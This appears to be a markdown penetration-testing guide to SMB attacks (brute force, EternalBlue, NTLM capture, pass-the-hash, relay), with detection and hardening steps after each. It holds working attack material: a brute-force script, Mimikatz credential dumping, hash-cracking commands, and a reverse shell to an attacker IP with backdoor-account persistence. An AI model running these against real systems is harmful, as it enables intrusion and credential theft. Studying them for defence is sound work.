

# SMB

### **What is SMB (Server Message Block)?**

SMB (**Server Message Block**) is a network file-sharing protocol that allows systems to share files, printers, and other resources over a network. It is primarily used in **Windows**, but also supported by **Linux (via Samba)** and **macOS**.

### **How SMB Works**

- A **client** (Windows, Linux, or macOS) connects to an **SMB server**.
- The client authenticates using a username/password or as a **guest**.
- The server grants access to shared resources (files, printers, etc.).
- SMB operates over **TCP port 445** (or older versions over **NetBIOS on ports 137-139**).

---

### **Common Uses of SMB**

✅ **File Sharing** – Share files between systems on a network.

✅ **Printer Sharing** – Connect remote printers.

✅ **Domain Authentication** – Used by **Active Directory (AD)** for authentication.

✅ **Remote Administration** – Windows **admin shares** (C$, ADMIN$).

---

### **Versions of SMB**

| SMB Version | Release Year | Features |
| --- | --- | --- |
| **SMBv1** | 1980s (DOS/Windows NT) | Legacy, insecure, vulnerable to **EternalBlue (WannaCry)**. **Disable it!** |
| **SMBv2** | 2006 (Windows Vista) | Improved performance, reduced commands, stronger security. |
| **SMBv3** | 2012 (Windows 8/Server 2012) | Encryption, secure tunneling. Vulnerable to **SMBGhost (CVE-2020-0796)**. |
| **SMBv3.1.1** | 2015 (Windows 10/Server 2016) | Pre-authentication integrity, stronger encryption. |

### **SMB Ports**

- **TCP 445** – Direct SMB over TCP (modern versions)
- **TCP 139 / UDP 137-138** – NetBIOS over TCP/IP (SMBv1 & older)

### **🚨 Exploiting SMB Vulnerabilities**

| **Exploit** | **CVE** | **Impact** |
| --- | --- | --- |
| **EternalBlue** | CVE-2017-0144 | RCE via SMBv1 (Used in WannaCry) |
| **SMBGhost** | CVE-2020-0796 | RCE via SMBv3 (Windows 10 & Server 2019) |
| **PrintNightmare** | CVE-2021-1675 | Privilege escalation via SMB printing |
| **ZeroLogon** | CVE-2020-1472 | NTLM attack on Domain Controllers |
| **SMBleed** | CVE-2020-1206 | Information disclosure vulnerability in SMBv3.1.1. Attackers can send specially crafted packets to extract sensitive data from memory. Affects Windows 10 versions 1903, 1909, and 2004. |

---

### **🧨 SMB Attack**

There are some methods and potential actions that can be performed with SMB.

1. Guest or anonymous access in SMB : **`allows users to access shared resources without authentication and also some times RCE.`** 
2. SMB Bruteforce  **: `SMB Bruteforce attacks attempt to guess valid usernames and passwords to gain unauthorized access to SMB shares. Attackers use automated tools to repeatedly try credentials until they find a match. Also Can Use For Password Spraying`**
3. Remote Code Execution (RCE) via SMB : **`SMB vulnerabilities can be exploited to achieve Remote Code Execution (RCE), allowing attackers to execute arbitrary commands on the target machine remotely. and Alose if Know User And Pass Or Have NTLM Hash Can Run System Command`** 
4. Net-NTLM Capture Attack : **`A Net-NTLM Capture Attack targets Windows authentication mechanisms that rely on Net-NTLM hashes. Attackers set up rogue SMB or HTTP servers to capture authentication attempts and obtain Net-NTLMv1/v2 hashes, which can then be cracked or relayed to gain unauthorized access.`**
5. Pass-The-Hash (PTH) Attack : **`Pass-The-Hash (PTH) is an attack technique that allows an adversary to authenticate as a user without knowing their plaintext password by using the NTLM hash instead. This technique is commonly used in lateral movement attacks within a compromised network.`**
6. Net-NTLM Relay Attack : **`A Net-NTLM Relay Attack is an attack technique that abuses Windows authentication mechanisms to impersonate legitimate users by relaying captured Net-NTLM hashes to a target system. This allows an attacker to gain unauthorized access without needing to crack passwords.`**

---

## **🚀 What Can You Do After Exploiting SMB or Gaining a Password Or Hash?**

Once you have successfully **bruteforced SMB credentials** or **exploited SMB vulnerabilities**, you can escalate access, move laterally, and maintain persistence. Below are the **critical next steps** after gaining SMB access.

| **List SMB Shares** | `smbmap -H <target_IP> -u Administrator -p 'Password123'` |
| --- | --- |
| **List Files in SMB Share** | `smbclient //<target_IP>/SharedFolder -U "Administrator"` |
| **Download File from SMB** | `get secret-doc.pdf` |
| **Upload Backdoor to SMB** | `put backdoor.exe` |
| **Execute Commands via PSEXEC** | `psexec.py Administrator@<target_IP> -hashes :<NTLM-Hash> whoami` |
| **Execute Commands via WMIExec** | `wmiexec.py Administrator@<target_IP> -hashes :<NTLM-Hash>` |
| **Spawn Reverse Shell via SMB** | `psexec.py Administrator@<target_IP> -hashes :<NTLM-Hash> -c nc.exe -e cmd.exe <attacker_IP> 4444` |
| **Extract Password Hashes (Dump SAM)** | `secretsdump.py Administrator@<target_IP> -hashes :<NTLM-Hash>` |
| **Create Admin User** | `net user backdoor P@ssw0rd /add & net localgroup Administrators backdoor /add` |
| **Enable RDP for Persistent Access** | `reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f` |

🚀 **After gaining SMB access, attackers can escalate privileges, move laterally, and persist. Secure your SMB before it's exploited!** 🔥

---

# **0. 🔎 Reconnaissance and Tools**

Reconnaissance is the first step in identifying SMB services and vulnerabilities. Attackers and penetration testers use various tools to enumerate SMB shares, users, and possible misconfigurations.

### **Reconnaissance with Built-in Windows Commands**

Windows provides several built-in commands that can be used to gather information about SMB services without additional tools.

✅ **Check SMB  info**



The `Get-SmbServerConfiguration` command in **PowerShell** is used to retrieve the current configuration settings of the **SMB (Server Message Block) service** on a Windows machine. It provides detailed information about the SMB server settings, including protocol versions, security configurations, and access policies.

This command is useful for **auditing, securing, and troubleshooting SMB configurations** on Windows . 🚀

✅ **List Available Shares on a Remote Machine**

```
net view \<target_IP>
```

- not info for remote machine without credentail !

✅ **Query Active SMB Sessions**

```
Get-SmbSession
```

✅ **Check Open SMB Ports on a Machine**

```
netstat -an | findstr "445 139"
```

✅ **Enumerate Shared Folders and Permissions**

```
net share
```

✅ **List Mapped SMB Drives**

```
net use
```

✅ **Check SMB Connection with PowerShell**

```
Test-NetConnection -ComputerName <target_IP> -Port 445
```

✅ **List Open Sessions on a Remote SMB Server**

```
query session /server:<target_IP>
```

✅ **Find Shared Resources Using Windows Explorer**
Open **Run (Win + R)** and enter:

```
\<target_IP>
```

`compmgmt.msc`

### **Common SMB Reconnaissance Tools**

✅ **Nmap – SMB Discovery and Enumeration**

```
nmap -p 139,445 --script smb-vuln*,smb-os-discovery,smb-enum-shares,smb-enum-users <target_IP>
```

- Discovers SMB version, shares, and user accounts.

✅ **SMBClient – Manual Share Enumeration**

```
smbclient -L //<target_IP> -U guest
```

- Lists available shares on an SMB server.

✅ **CrackMapExec – Automating SMB Enumeration**

```
crackmapexec smb <target_IP>
```

- Identifies SMB versions, users, and vulnerabilities.

✅ **Enum4Linux – Linux-Based SMB Enumeration**

```
enum4linux -a <target_IP>
```

- Extracts SMB information such as user lists, shares, and policies.

✅ **SMBMap – Enumerating SMB Shares and Permissions**

```
smbmap -H <target_IP> -u guest -p ""
```

- Identifies shared folders and their permissions.

✅ **Metasploit – SMB Scanning**

```
msfconsole
use auxiliary/scanner/smb/smb_version
set RHOSTS <target_IP>
run
```

- Checks SMB version and whether it's vulnerable to known exploits.

---

# **1. ⚔️ Step-by-Step Attack:** Guest or anonymous access in SMB

### **1.1 Enable Guest Access on Windows 10 & 11 (Additional Steps)**

By default, Windows **disables guest SMB access** in recent versions. To override this:

1. **Open Local Group Policy Editor (`gpedit.msc`)**
2. Navigate to:
    
    ```
    Computer Configuration → Administrative Templates → Network → Lanman Workstation
    ```
    
3. Find:
    
    ```
    Enable insecure guest logons
    ```
    
4. Set to Enabled
5. Restart the system.

### **1.2 Check for Anonymous SMB Access**

### **🔍 Using `smbclient` (Linux)**

```bash
# Some Times Need Set Username
smbclient -L //<target_IP> -N
```

✅ **`-L`** lists available shares

✅ **`-N`** connects without a password (anonymous)

📌 **Example Output (Vulnerable System)**

```
Sharename       Type      Comment
---------       ----      -------
IPC$            IPC       Remote IPC
Public         Disk      Open shared folder
```

🚨 If you see **disk shares (e.g., Public, Share, C$)**, you can **access them anonymously**.

## **1.3🛡️ Defending Against** Guest or anonymous access in SMB

### **🛡️ 1️⃣ Disable Guest or Anonymous Access in SMB**

Guest access is **disabled by default in modern Windows versions**, but misconfigurations can re-enable it.

### **🔍 Check If Guest Access Is Enabled**

```powershell
# maybe have no result
Get-SmbServerConfiguration | Select EnableSMBGuestAccess
```

✅ **If the result is `True`**, guest access is **enabled** and must be disabled.

### **❌ Disable Guest SMB Access**

```powershell
# maybe not work
Set-SmbServerConfiguration -EnableSMBGuestAccess $false -Force
```

✅ This **forces authentication** for all SMB connections.

### **🛡️ 2️⃣ Detect Active SMB Guest Sessions**

Attackers exploiting SMB guest access may leave traces in **Windows Event Logs**.

### **🔍 Check Open Guest Sessions**

```powershell
Get-SmbSession | Where-Object {$_.ClientUserName -eq "Guest"}

```


✅ If any results appear, **unauthorized SMB guest access is active**.

### **🔍 Monitor Event Logs for Guest Logins**

```powershell
Get-WinEvent -FilterHashtable @{LogName='Security';ID=4624} | Where-Object { $_.Message -match "Guest" }
```

✅ Event ID **4624** logs all successful logins, including **guest sessions**.

### **🛡️ 3️⃣ Restrict SMB Access via Group Policy**

Organizations often overlook **Group Policy settings** that can lock down SMB guest access.

### **🔍 Enforce SMB Authentication**

1. Open **Group Policy Editor (`gpedit.msc`)**
2. Navigate to:
    
    ```
    
    Computer Configuration → Windows Settings → Security Settings → Local Policies → Security
    ```
    
3. Find:
    
    ```
    Network access: Let Everyone permissions apply to anonymous users
    ```
    
4. **Set to Disabled**

✅ **Prevents unauthorized users from inheriting "Everyone" permissions**.

### **🛡️ 4️⃣ Detect SMB Guest Exploitation Attempts**

Attackers commonly abuse **guest SMB shares** to steal files or drop malware.

### **🔍 Check for Guest File Access (Event ID 5140,4624**,**4663)**

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 5140 -and $_.Message -match "Guest" }
```

✅ **Logs file access attempts** using **guest credentials**.

- **4624** → Successful logon events (**detects Guest logins**).
- **5140** → A file or shared folder was accessed over SMB.
- **4663** → A file or object was **read, modified, or deleted** (detects data exfiltration).

---

# **2. ⚔️ Step-by-Step Attack: Bruteforce SMB**

### **2.1 Enumerate SMB Users (Before Bruteforce)**

Attackers often try to **extract usernames** before brute-forcing credentials.

### **🔍 Using CrackMapExec**

```bash
# enumerate domain users, if a user is specified than only its information is queried.
crackmapexec smb <target_IP> --users
```

✅ Lists **SMB user accounts**.

### **2.2 🔍 Bruteforce Using CrackMapExec (Fast & Stealthy)**

```bash
crackmapexec smb 192.168.1.11 -u CL1 -p 'R$$tme1234'
```


### **⚙️ SMB Bruteforce test use** net use

```powershell
net use \\192.168.1.8\C$ /user:Administrator R$$tme1234

The command completed successfully.
```

### **🚀 PowerShell SMB Bruteforce Script**

```
# PowerShell SMB Bruteforce Script using "net use"
# Define target SMB share
$target = "\\192.168.1.8\C$"

# Load username and password lists
$users = Get-Content "users.txt"
$passwords = Get-Content "passwords.txt"

# Loop through each username-password combination
foreach ($user in $users) {
    foreach ($password in $passwords) {
        Write-Host "[*] Trying: $user / $password" -ForegroundColor Yellow

        # Attempt authentication using "net use"
        $output = cmd.exe /c "net use $target /user:$user $password" 2>&1

        # Check if authentication was successful
        if ($output -match "The command completed successfully") {
            Write-Host "[+] Valid Credentials Found: $user / $password" -ForegroundColor Green

            # Save credentials to file (Escaping the ":" issue)
            "$user`:$password" | Out-File -Append valid_creds.txt
            exit
        } elseif ($output -match "Logon failure") {
            Write-Host "[-] Invalid Credentials: $user / $password" -ForegroundColor Red
        } elseif ($output -match "Multiple connections") {
            Write-Host "[!] Connection already exists. Disconnecting..." -ForegroundColor Cyan
            cmd.exe /c "net use $target /delete /yes"
        }
    }
}
Write-Host "[-] Bruteforce completed. No valid credentials found." -ForegroundColor Red

```

### **2.3🛡️ Defending Against Bruteforce SMB**

🚨 **Bruteforce attacks are noisy** and leave detectable footprints. Below are **overlooked defenses** and **threat-hunting techniques** to catch and stop SMB bruteforce attempts.

### **🛡️ 1️⃣ Detecting SMB Bruteforce Attempts**

Bruteforce attacks generate **multiple failed login attempts** within a short time, which trigger Windows Event IDs.

### **🔍 Monitor Windows Security Logs for SMB Failed Logins (Event ID 4625)**

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4625 }
```

✅ **Event ID 4625 (Failed Logon)** logs every failed authentication attempt.

🚨 **Multiple failed attempts from a single IP = Bruteforce Attack!**

### **🛡️ 2️⃣ Prevent SMB Bruteforce with Account Lockout Policies**

Bruteforcing only works if **accounts allow unlimited login attempts**.

### **🔍 Check Current Lockout Policy**

```powershell
net accounts
```

Look for:

```
Lockout threshold: Never
```

🚨 If **lockout is disabled**, the system is vulnerable!

### **✅ Enforce Account Lockout (Limit Bruteforce Attempts)**

```powershell
net accounts /lockoutthreshold:5 /lockoutduration:30
```

✅ **After 5 failed attempts**, the account is locked for **30 minutes**.

✅ Prevents **attackers from continuously bruteforcing SMB credentials**.

### **🛡️ 3️⃣ Restrict SMB Access to Internal Networks**

SMB should **never** be exposed to the **public internet**.

### **🔍 Check If SMB (Port 445) Is Open to the Internet**

```powershell
netstat -an | findstr :445
```

🚨 **If port 445 is open externally, attackers can bruteforce SMB remotely!**

### **✅ Block External SMB Access via Windows Firewall**

```powershell
New-NetFirewallRule -DisplayName "Block External SMB" -Direction Inbound -Protocol TCP -LocalPort 445 -Action Block
```

✅ Prevents **remote attackers from scanning and attacking SMB**.

### **🛡️ 4️⃣ Enforce Strong Authentication for SMB**

Bruteforce succeeds if users have **weak passwords**.

### **✅ Enforce Strong Passwords via Group Policy**

1. Open **`gpedit.msc`**
2. Navigate to:
    
    ```
    Computer Configuration → Windows Settings → Security Settings → Account Policies → Password Policy
    ```
    
3. Set:
    - **Minimum password length:** `12`
    - **Complexity requirements:** `Enabled`
    - **Expiration:** `Every 60 days`

✅ Ensures **SMB users have strong, unguessable passwords**.

🚀 **SMB Bruteforce is one of the most common attack methods. Detect it, block it, and hunt down attackers before they move laterally!** 🔥

---

## **3. ⚔️  Step-by-Step Attack: Remote Code Execution (RCE) via SMB**

[](data:image/gif;base64,R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==)

**🚨 Why Remote Code Execution is Dangerous?**

Exploiting SMB for **Remote Code Execution (RCE)** allows attackers to execute commands **remotely on a target system**, often with **SYSTEM** privileges. SMB-based RCE is commonly used for **lateral movement, privilege escalation.**

### **3.1 Identify SMB Services on the Target**

Before attempting RCE, verify that SMB is **enabled and accessible**.

### **🔍 Scan SMB Services Using Nmap**

```bash
nmap -p 139,445 --script smb-os-discovery,smb-enum-shares,smb-vuln-ms17-010 <target_IP>
```

✅ Identifies:

- **Open SMB ports** (139, 445)
- **SMB version** (SMBv1, SMBv2, SMBv3)
- **Vulnerabilities** (EternalBlue, SMBGhost)

### **3.2 Exploit SMB for Remote Code Execution (RCE)**

### **🔥 RCE Exploits Using SMB ( CVE )**

### **🛠️  Exploit EternalBlue (MS17-010)**

If the target is vulnerable to **EternalBlue**, execute an exploit to gain RCE.

### **Using Metasploit:**

```bash
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_IP>
set LHOST <your_IP>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

✅ **Spawns a remote Meterpreter shell** on the target.

### **Using Impacket (No Metasploit)**

```bash
python3 eternalblue_exploit.py <target_IP>
```

✅ Exploits MS17-010 without Metasploit.

---

### **🛠️  Execute Commands via PSEXEC (SMB Admin RCE)**

If **SMB credentials** are known, use `psexec.py` from Impacket to **execute commands remotely**.

```bash
psexec.py <domain>/<username>:<password>@<target_IP>
```

✅ **Executes commands as SYSTEM**, allowing **full control** over the target.

## **3.3🛡️ Defending Against Remote Code Execution (RCE) via SMB**

### **🔍 Detect RCE Using PSEXEC & Remote Services (Event ID 7045)**

Attackers use **psexec.py**, **smbexec.py**, or **SC Manager** to create remote services.

```powershell
Get-WinEvent -LogName System | Where-Object { $_.Id -eq 7045 }
```

✅ **Event ID 7045** → Indicates a new service was installed.

🚨 **Red Flag** → If the service name is suspicious (`backdoor`, `ransomware`, `persistence`), an **SMB-based RCE may have been used**.

## **🛡️ 1️⃣ Prevent SMB Exploitation (RCE Mitigations)**

If SMB is **not configured securely**, attackers can easily exploit **misconfigurations**.

### **🔍 Check If SMBv1 Is Enabled (Vulnerable to EternalBlue)**

```powershell
Get-SmbServerConfiguration | Select EnableSMB1Protocol
```

🚨 **If the result is `True`**, the machine is **vulnerable** to EternalBlue!

✅ **Disable SMBv1 to prevent MS17-010 exploitation:**

```powershell
# Enable And Disable From Contorl Panel Programs And Fetures
Set-SmbServerConfiguration -EnableSMB1Protocol $false -Force
```

---

# **4.⚔️ Step-by-Step Attack: Net-NTLM Capture Attack**

## **🚨 Why Net-NTLM Capture Attacks Are Dangerous?**

A **Net-NTLM Capture Attack** allows an attacker to **intercept NTLM authentication attempts** and capture **Net-NTLMv1 or Net-NTLMv2 hashes**. These hashes can then be:

- **🔓 Cracked to retrieve plaintext passwords**
- **⚡ Relayed to other systems (NTLM Relay Attack)**
- **💀 Used for Pass-The-Hash (PTH) attacks**

🚨 **Net-NTLM authentication is vulnerable if SMB signing is disabled or if Windows allows NTLM authentication over insecure channels.**

## **4.1 Poison NTLM Authentication Requests (Responder)**

Attackers set up **Responder** to intercept NTLM authentication attempts from Windows systems.

### **🔥 Start Responder to Capture NTLM Hashes**

```bash
responder -I eth0 -v
```

✅ **Listens for NTLM authentication requests** on the network.

🚨 **What This Does:**

- Traps **Windows authentication attempts**.
- Captures **NTLMv1/v2 hashes** (useful for cracking or relaying).
- **Relays NTLM authentication** to SMB if possible.

📌 **Example Captured Hash:**

```
[+] NTLMv2-SSP Client   : 192.168.1.100
[+] User                : VICTIM\user
[+] NTLM Hash           : 11223344556677889900AABBCCDDEEFF:11223344556677889900AABBCCDDEE
```

🚨 **If SMB signing is disabled**, attackers can **relay** this hash or try to **crack** it.

## **4.2 Crack NTLM Hashes with Hashcat**

Once an NTLMv1/NTLMv2 hash is captured, use **Hashcat** to crack it.

### **🔥 Identify Hash Type**

Check if the captured hash is:

- **NTLMv1** → **Mode 5500**
- **NTLMv2** → **Mode 5600**

---

### **🔥 Crack NTLMv2 Hash with Hashcat**

 Save the NTLM hash into a file (e.g., `hashes.txt`):

```
user::DOMAIN:3c4a896b3f94b3e3:11223344556677889900AABBCCDDEEFF
```

 Run Hashcat against the NTLMv2 hash:

```bash
hashcat -m 5600 hashes.txt /path/to/rockyou.txt --force
```

✅ If successful, Hashcat will return the **plaintext password**.

---

### **🔥 Crack NTLMv1 Hash with Hashcat**

 Save the NTLMv1 hash in `ntlmv1.txt`:

```
user::DOMAIN:11223344556677889900AABBCCDDEEFF
```

 Run Hashcat using NTLMv1 attack mode:

```bash
hashcat -m 5500 ntlmv1.txt /path/to/rockyou.txt --force
```

✅ **NTLMv1 hashes are weaker and easier to crack than NTLMv2.**

---

## **Crack NTLM Hashes with John the Ripper**

An alternative method is using **John the Ripper** to crack NTLM hashes.

### **🔥 Crack NTLM Hashes with John**

```bash
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

✅ **If the password is weak, John will recover it quickly.**

## **4.3🛡️ Defending Against NTLM Hash Cracking**

### **🛡️ 1️⃣ Enforce SMB Signing (Prevents NTLM Capture & Relay)**

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
```

✅ **Prevents attackers from intercepting NTLM authentication attempts.**

### **🛡️ 2️⃣ Disable NTLM Authentication (Use Kerberos Only)**

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name LmCompatibilityLevel -Value 5
```

✅ **Forces Windows to use Kerberos, preventing NTLM relay attacks.**

### **🛡️ 3️⃣ Monitor NTLM Authentication Events (Windows Event Log)**

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4776 }
```

✅ **Detects NTLM authentication attempts, which may indicate an attack.**

---

## 5.⚔️ Step-by-Step Attack: Pass-The-Hash (PTH) Attack

### **🚨 Why Pass-The-Hash (PTH) is Dangerous?**

The **Pass-The-Hash (PTH) attack** allows attackers to **authenticate as a user without knowing their password** by **using their NTLM hash instead**.

- **🔥 No need to crack passwords!** Attackers simply use the NTLM hash directly.
- **⚡ Works on Windows systems that use NTLM authentication** (SMB, RDP, WinRM).
- **💀 Commonly used for lateral movement and privilege escalation** in Active Directory environments.

🚨 **PTH attacks work if SMB signing is disabled!**

Attackers often use **Mimikatz, CrackMapExec, and Impacket** to perform PTH.

## **5.1 Extract NTLM Hashes (Credential Dumping)**

Before using PTH, attackers need **NTLM hashes** from a compromised machine.

### **🔥 Dump Hashes Using Mimikatz (If Admin or SYSTEM Access)**

Run Mimikatz as Administrator:

```powershell
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

✅ **Extracts NTLM hashes of logged-in users**.

### **🔥 Dump Hashes from SAM Database**

```powershell
mimikatz.exe
lsadump::sam
```

✅ **Extracts NTLM hashes from the local SAM database**.

---

## **5.2 Use NTLM Hash to Authenticate (Pass-The-Hash)**

Once the NTLM hash is extracted, an attacker can **use it to authenticate without knowing the password**.

### **🔥 Pass-The-Hash via CrackMapExec (SMB)**

```bash
crackmapexec smb <target_IP> -u Administrator -H <NTLM-Hash>
```

✅ **Authenticates to SMB using the NTLM hash**.

### **🔥 Pass-The-Hash via Impacket (SMB)**

```bash
sexec.py DOMAIN/Administrator@<target_IP> -hashes :<NTLM-Hash>
```

✅ **Spawns a remote SYSTEM shell via SMB**.

### **🔥 Pass-The-Hash via WMIExec**

```bash
wmiexec.py DOMAIN/Administrator@<target_IP> -hashes :<NTLM-Hash>
```

✅ **Executes remote commands over WMI**.

### **🔥 Pass-The-Hash via Evil-WinRM (WinRM)**

```bash
evil-winrm -i <target_IP> -u Administrator -H <NTLM-Hash>
```

✅ **Authenticates via Windows Remote Management (WinRM)**.

## **🛡️ Defending Against Pass-The-Hash Attacks**

**PTH attacks work because NTLM authentication allows hashes instead of passwords.**

🔒 **Mitigations should focus on disabling NTLM authentication & enforcing Kerberos.**

### **🛡️ 1️⃣ Detect Pass-The-Hash Activity in Windows Logs**

PTH attacks trigger **Event ID 4624 (Logon)** with **Type 3 (Network Logon)** and an **empty password field**.

```powershell
Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4624 -and $_.Message -match "NTLM" }
```

🚨 **If an NTLM logon occurs without an interactive session, it may be a PTH attack.**

### **🛡️ 2️⃣ Prevent Pass-The-Hash by Disabling NTLM**

```powershell
Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa" -Name LmCompatibilityLevel -Value 5
```

✅ **Forces Windows to use Kerberos authentication instead of NTLM**.

---

## **6.⚔️ Step-by-Step Attack: NTLM Relay via SMB**

### **🚨 Why NTLM Relay is Dangerous?**

NTLM relay attacks **allow an attacker to impersonate a legitimate user without cracking their password** by intercepting and forwarding NTLM authentication requests.

- **💀 No need to crack passwords** – The attacker **relays authentication attempts** to gain unauthorized access.
- **⚡ Common attack in Active Directory environments** – Attackers use it to **gain admin privileges, dump hashes, or execute remote commands**.
- **🔥 SMB is the most common NTLM relay target** – Attackers exploit it to **gain RCE, steal credentials, and move laterally**.

🚨 **Attackers typically use `Responder`, `NTLMRelayX`, or `Impacket` to execute NTLM relay attacks.**

### **6.1 Identify**

```bash
nmap --script smb2-security-mode -p 445 <target_IP>
```

✅ If output shows **"Message signing disabled"**, **SMB signing is OFF** (Vulnerable 🚨).

SMB signing is a security feature that ensures the authenticity and integrity of SMB packets by digitally signing them. This prevents man-in-the-middle attacks by verifying that the packets originate from a trusted source and remain unaltered in transit.

However, if SMB signing is disabled, attackers can intercept, modify, or relay packets to another system

### **🔍 SMB Signing Status Analysis**

Your **Nmap scan result** shows:

```

smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

```

✅ **What This Means:**

- **"Message signing enabled"** → The server **supports SMB signing**.
- **"but not required"** → **SMB signing is optional**, meaning **attackers can still perform NTLM relay attacks** if the client does not enforce signing.

🚨 **Risk Level: Moderate**

- Since signing is **not required**, an attacker **can exploit this weakness** in an NTLM relay attack.
- The best practice is to **force SMB signing to be required**.

### **🔍 SMB Signing Enforcement Defaults in Windows Server 2025 & Windows 11 24H2**

In **Windows Server 2025** and **Windows 11 24H2**, Microsoft has strengthened SMB security by **enforcing SMB signing** in most cases. These updates help reduce **NTLM Relay Attack** vectors but do **not completely eliminate them**.

The table below summarizes the **old and new SMB signing enforcement defaults**:

| **Operating System** | **SMB Client**  | **SMB Server** |
| --- | --- | --- |
| **Windows Server 2022 DC** | ❌* | ✅ |
| **Windows Server 2022 Member** | ❌* | ❌ |
| **Windows 11 23H2** | ❌* | ❌ |
| **Windows Server 2025 DC** | ✅ | ✅ |
| **Windows Server 2025 Member** | ✅ | ❌ |
| **Windows 11 24H2** | ✅ | ✅ |

### **Legend:**

✅ **SMB signing is required**

❌ **SMB signing is not required**

❌* **SMB signing is only mandated for SYSVOL and NETLOGON shares** (which contain **Group Policy Objects (GPOs) and logon scripts**).

## **6.2 Attack**

### **📝 Step 1:  SMB Clients Sending NTLM Hashes**

✅ Use **Responder** to capture NTLM authentication requests.

```bash
responder -I eth0 -v
```

- The target system will **send NTLMv2 hashes** when trying to authenticate.

---

### **📡 Step 2: Relay NTLM Authentication to SMB**

✅ Use **impacket’s ntlmrelayx** to relay NTLM authentication to another vulnerable system:

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

- `targets.txt` contains **SMB servers without signing enabled**.
- If successful, this grants **authenticated access** to the target.

## **6.3🛡️ Defending Against NTLM Relay via SMB**

### **🛡️ 1️⃣ Block SMB Exploitation by Enforcing SMB Signing**

SMB Signing prevents **NTLM relay attacks**.

```powershell
Set-SmbServerConfiguration -RequireSecuritySignature $true -Force
```

✅ **Prevents attackers from relaying SMB credentials**.

---

[](data:image/gif;base64,R0lGODlhAQABAIAAAP///wAAACH5BAEAAAAALAAAAAABAAEAAAICRAEAOw==)

💡 **Suggestions:**

- **Use Honey SMB** : Set up a fake, monitored SMB share that triggers alerts on access.
- **Disable SMB Server :** If SMB is not required, disable the SMB service to reduce attack surfaces.
- **Enable SMB Logging**: Configure auditing to track access attempts.
- **Use Strong Authentication**: Enforce NTLMv2 or Kerberos for secure authentication.
- **Restrict SMB Access**: Limit access to trusted IPs or subnets.
- **Monitor for Anomalous Traffic**: Use SIEM tools to detect unusual SMB activity.
